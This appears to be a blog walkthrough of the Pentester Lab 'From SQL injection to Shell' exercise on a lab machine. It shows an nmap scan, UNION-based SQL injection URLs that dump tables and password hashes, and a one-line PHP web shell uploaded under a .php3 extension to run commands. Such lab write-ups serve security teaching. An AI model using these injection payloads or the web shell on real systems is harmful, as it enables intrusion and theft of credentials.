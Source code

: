 ```yaml
---
title: "Pentester Lab: From SQL injection to Shell -walkthrough"
date: 2020-06-22T20:48:38+05:30
draft: false
---
```

### About release 
- Name: Pentester Lab: From SQL injection to Shell
- Date release: 13 Sep 2012

- Author: Pentester Lab
- Series: Pentester Lab
- Web page: http://www.pentesterlab.com/exercises/from_sqli_to_shell/  

This machine was hosted on  pentesterlab.com.The goal was to teach how to exploit sql injection and gain administrator access.  

Before Going to exploits we should know some basics about sqli.   
SQL injection is a  vulnerability where an attacker interferes with the queries that an application makes to its database.  
If user input is not sanitized the attacker can inject sql commands in server.  
&nbsp;

In this blog post, i will perform sql injection and perform file upload to get shell access.     
First step was to know the ip address of your machine.if you use linux  you can know your ip address through ipconfig command.


Now, to identify  the services running on our ip address we use a software called nmap.

` nmap 192.168.42.0/24 `  

the above command scans a subnet.  
&nbsp;


![nmap output](/sqlitoshell/nmap-output.png) 


We can see http open on port 80 .
If we visit that we can see a website with title "My Awesome Photoblog".
Clicking on test we can see the url as "http://192.168.42.211/cat.php?id=1"  

The parameter id was a source of sql injection .You can verify that by typing quote next to parameter and it shows error .  
Now type " order by 1" next to id and it shows same output with no error message .  

Keep incrementing order by value till you get error .

Error occurs when you type ORDER BY 5 which means to request 4 column from database.

![order by error](/sqlitoshell/orderby.png)   
&nbsp;

now to get list of table name form the form our database we need to request TABLE_NAME from INFORMATION__SCHEMA.TABLES  

```http://192.168.42.211/cat.php?id=2 union select 1,TABLE_NAME,3,4 from INFORMATION_SCHEMA.TABLES```   
&nbsp;

![information schema](/sqlitoshell/INFO-SCHEMA.jpg)  
    
&nbsp;

Now we know there is a table called users .
similarly get the COLUMN_NAME  from table users .
we get 3 columns - id,login ,password .
Similarly we can retrieve password by using the following url  
```"http://192.168.42.211/cat.php?id=2 union select 1,password,3,4 from users" ```

&nbsp;

The password is hashed before storage . This  was md5 hash adn on decrypting we can see the password is "P4ssw0rd".  
We can get the login from users table.  
Login with te credential odbtained in admin page   
![admin page](/sqlitoshell/admin.jpg)  
we have upload image section .

for exploiting this we can use very simple php code.   
```&nbsp;

<?php  
  system($_GET['cmd']);  
?>
```  
Now we can execute commands in server through get parameter.  
upload doesnt accept php files but php3 works fine 

Using following url we can use ls on server 

```http://192.168.42.211/admin/uploads/exploit1.php3?cmd=%22ls%22```

&nbsp;

![exploit](/sqlitoshell/exploit-success.png)   
&nbsp;


These kind of vulnerablilty are hard to find in modern websites but still they are rarely available in internet today. 
we can do some privilage escalation to get root access.